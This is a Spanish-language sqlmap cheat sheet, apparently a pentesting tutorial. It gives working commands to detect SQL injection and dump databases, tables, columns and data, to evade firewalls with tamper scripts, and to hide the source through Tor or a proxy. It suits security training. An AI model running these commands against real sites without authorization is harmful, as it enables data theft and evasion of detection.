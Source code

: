 # Comandos básicos de la herramienta SQLMap
<p align="center">
  <img src="https://i.postimg.cc/7LMcjndm/SQLmap.png" alt="sql"/>
</p>

- Notas: 
	1. Si se utiliza `-r` con `sqlmap` para leer un a solicitud HTTP desde un archivo, no es necesario utilizar la opción `-u`.
	2. Cuando se tenga una solicitud HTTP completa en un `file.txt` y quiera replicarse exactamente como fue capturada se utiliza `-r`.
	   En caso de querer especificar los datos de la solicitud en la línea de comandos se utilizaría `--data="user=user&pass=pass"`.
	3. Se puede alojar un script personalizado en el parámetro `--tamper`.

| COMANDOS     | DESCRIPCIÓN                                                                                                             |
| ------------ | ----------------------------------------------------------------------------------------------------------------------- |
| **-u**       | Especifica el objetivo (`-u example.com`)                                                                               |
| **-r**       | Especifica el objetivo desde un .txt con la cabecera (`-r request.txt`)                                                 |
| **--data**   | Realiza pruebas de `SQLi` en parámetros específicos para determinar si son vulnerables(`--data="user=user&pass=pass"`). |
| **-p**       | Realiza una prueba en un parámetro en específico (`-p user`).                                                           |
| **--tamper** | Evade detección de firewall (`--tamper space2comment`)                                                                  |

### Base de datos
- Devuelve todas las bases de datos
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln --dbs --tamper=space2comment
```
```bash
#Cookie
sqlmap -u "http://example.com/index.php" -v 3 --cookie "id=*" --dbs --tamper=space2comment
#JSON

```
### Tabla
- Devuelve las tablas de una DB específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name --tables
```
### Columnas
- Devuelve las columnas de una DB y tabla específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name --columns
```
#### Datos
- Devuelve los DATOS de una columna específica
```bash
sqlmap -r /home/kali/sqli.txt -v 3 -p parametro_vuln -D DB_name -T Table_name  --dump -C name,name,name
```
---
# Métodos HTTP: GET vs POST

| **GET**                                                                                       | **POST**                                                                        |
| --------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| Solicita los datos de un servidor.                                                            | Envia datos al servidor, a menudo datos de un formulario.                       |
| Datos enviados en la **URL** de la solicitud.                                                 | Datos se envían en el **cuerpo** de la solicitud **HTTP**.                      |
| Parámetros visibles en la **URL** del navegador.                                              | Parámetros **no** visibles en la **URL**  del navegador.                        |
| Solicitud limitada por la longitud máxima de la **URL.** Varía según el navegador y servidor. | No hay limitación de tamaño en los datos enviados en el cuerpo de la solicitud. |


**EJEMPLO GET:** `http://www.example.com/index.php?username=user&password=pass123`

**EJEMPLO POST:** 
```http
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded

username=user&password=pass123
```
## GET Request con SQLMap:

- Se analiza **user=admin** y **pass=admin** en la **URL** para detectar posibles inyecciones **SQL**.
```bash
sqlmap -u http://www.example.com/login.php?user=admin&pass=admin
```
## POST Request con SQLMap:

- Se analiza  **user=admin** y **pass=admin** en el **cuerpo** de la solicitud para detectar posible SQLi.
```bash
sqlmap -u http://www.example.com/login.php --data='user=admin&pass=admin'
```
## PUT Request con SQLMap:

- PUT, envía datos al servidor para crear o actualizar un recurso en el servidor.
- Se permite verificar si la aplicación web es susceptible a `SQLi` con un método diferente a los que son `POST` y `GET`.
```bash
sqlmap -u www.example.com --data='id=1' --method PUT
```
## Solicitud HTTP con SQLMap

- Se puede guardar la cabecera desde BurpSuite en un **.txt** y luego alojarla en la herramienta de SQLMap junto el comando **-r**.
1. Lanzar la petición.
2. Capturar la trama.
3. Copiar la cabecera.
4. Pegarla en un archivo .txt
5. Ingresar la ruta del archivo .txt en la herramienta SQLMap. `-r /../../rq.txt`
```bash
sqlmap -r request.txt /rq.txt
```
## Cookies con SQLMap

- Especificar el valor de la cookie con SQLMap.
```bash
sqlmap ... --cookie='PHPSESSID=..'
```
- Otro ejemplo es utilizar en vez de `--cookie` los comandos `-H/--header`
```bash
sqlmap ... -H='Cookie:PHPSESSID=..'
```
- Comando básico:
```bash
sqlmap -u http://example.com/index.php --cookie="id=*" --dbs --batch
```
## JSON con SQLMap

- Capturar la trama, agregar el **JSON** y por último cambiar el método **GET** por **POST**.
- Copiar la trama con las modificaciones realizadas y pegarlas en un archivo **.txt**
<p align="center">
  <img src="https://i.postimg.cc/R0wQGV31/sqli-txt.png" alt="sqli"/>
</p>

```bash
sqlmap -r request.txt --batch --dbs
# Por último seguir el paso a paso del principio para revisar tablas, columnas y datos.
```

---
# "Anonimato"

## Usar TOR con SQLMap
```bash
sqlmap -u 'http://www.example.com' --tor --tor-type=SOCK5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```
## Usar un PROXY con SQLMap
```bash
sqlmap -u 'http://www.example.com' --proxy='https://127.0.0.1:8080'
```
